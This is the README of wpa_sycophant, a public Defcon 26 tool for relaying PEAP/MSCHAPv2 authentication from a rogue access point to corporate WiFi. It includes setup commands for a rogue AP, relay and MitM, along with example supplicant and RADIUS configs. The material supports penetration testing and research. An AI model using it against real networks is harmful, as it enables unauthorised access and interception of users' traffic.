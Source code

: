 

# WPA_Sycophant 

[![Build Status](https://travis-ci.org/sensepost/wpa_sycophant.svg?branch=master)](https://travis-ci.org/sensepost/wpa_sycophant)

A tool to relay phase 2 authentication attempts to access corporate wireless without cracking the password. 

This was released as part of a [Defcon 26 talk](https://www.youtube.com/watch?v=eYsGyvGxlpI) and is a component in the MSCHAP relay attack, the other being [Hostapd-Mana](https://github.com/sensepost/hostapd-mana/) with the [enable_sycophant](https://github.com/sensepost/hostapd-mana/wiki/EAP-Relay-with-Sycophant) flag. 

A hub of wireless hacking information is at https://w1f1.net/ where links to other tools may be found. 


## Current support

 - Basic PEAP using MSCHAPv2


## How-To

To use this technique it is required that you run a rogue access point so that a legitimate user will connect to you so that you may relay the authentication attempt to Sycophant. 

### Running hostapd-mana

To do this with [hostapd-mana](https://github.com/sensepost/hostapd-mana) you add a flag `sycophant_enable` Mana will write down the first part of the challenge response once a user connects. This is picked up by Sycophant to initiate the handshake against the target WiFi. 

A second tool has been created ([berate_ap](https://github.com/sensepost/berate_ap)) for running Mana attacks and supports `wpa_sycophant` using the `--wpa-sycophant` flag. This allows for a rogue AP for relaying to be setup easily with the following command:


```
sudo berate_ap --eap --wpa-sycophant --mana-eapsuccess <Interface for MANA> <Interface to share Network with> TestingRogueAP
```

Which will enable the relevant flags and setup Mana for you. The above will also enable returning a `eapsuccess` message which will allow for Mitm of the users whose authentication attempt you relayed. 

In addition the second interface may be the same interface used for `wpa_sycophant` which will allow the user you have MitMed to still reach their intended network so you may do further attacks against them.  

### Running wpa_sycophant

Running wpa_sycophant may be done using the script `wpa_sycophant.sh` and the current supported commands are: 

   - `-c` to give it a config file, I suggest modifying the provided example.
   - `-i` to provide the interface to use. 

an example command would be:
    
    sudo ./wpa_sycophant.sh -c wpa_sycophant_example.conf -i wlp0s20f0u6


## Example Config

```
network={
  ssid="TestingEAP"
  # The SSID you would like to relay and authenticate against. 
  scan_ssid=1
  key_mgmt=WPA-EAP
  # Do not modify
  identity=""
  anonymous_identity=""
  password=""
  # This initialises the variables for me.
  # -------------
  eap=PEAP
  phase1="crypto_binding=0 peaplabel=0"
  phase2="auth=MSCHAPV2"
  # Dont want to connect back to ourselves,
  # so add your rogue BSSID here.
  bssid_blacklist=00:14:22:01:23:45
}
```


## Dont Relay to yourself

Since you will be running a rogue AP potentialy near by your supplicant there is the possiblity that you will try relay to yourself. To stop this check the MAC/BSSID of your access point and add that to the `bssid_blacklist` of your config. 



## Remote Relay

If you would like to separate the AP and Sycophant so that they are running on separate hosts or you wish to use Enterprise grade equipment. 

This may be done by running MANA in RADIUS only mode. This will create a local RADIUS server that will relay the authentication to the local Sycophant. This allows you to setup your rogue to use that remote RADIUS server and relay credentials over the Internet or other networks.

A example RADIUS server config for MANA with Sycophant enabled is below:

```
interface=<Ethernet Interface>
driver=wired
# If you would like to run on loopback:
#driver=none 

eap_server=1
eap_user_file=hostapd.eap_user
ca_cert=rogue-ca.pem
server_cert=radius.pem
private_key=radius.key
private_key_passwd=

radius_server_clients=hostapd.radius_clients
# Contents of hostapd.radius_clients:
# 0.0.0.0/0 P@ssw0rd

radius_server_auth_port=1812

# -1 = log all messages
logger_syslog=-1
logger_stdout=-1

# 2 = informational messages
logger_syslog_level=1
logger_stdout_level=1

sycophant_enable=1
sycophant_dir=/tmp/
```

You may then use this remote RADIUS server with any AP that supports RADIUS authentication. 
